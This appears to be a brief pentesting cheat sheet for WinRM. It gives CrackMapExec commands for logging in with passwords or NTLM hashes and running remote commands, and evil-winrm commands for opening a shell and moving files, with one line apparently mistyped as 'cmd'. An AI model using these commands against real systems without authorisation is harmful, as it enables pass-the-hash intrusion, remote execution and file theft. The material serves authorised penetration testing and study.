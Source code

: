 ###### Authentication
```
cme winrm ip -u username -p password
cme winrm ip -u username -p password -x command
cmd winrm ip -u username -H ntlm_hash
cme winrm ip -u username -H ntlm_hash -x command
```

###### Get-shell
>This shell is the ultimate WinRM shell for hacking/pentesting.

>WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.


```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash

evil-winrm basic commands:
upload local_filename || upload local_filename destination_filename
download remote_filename || download remote_filename destination_filename

```
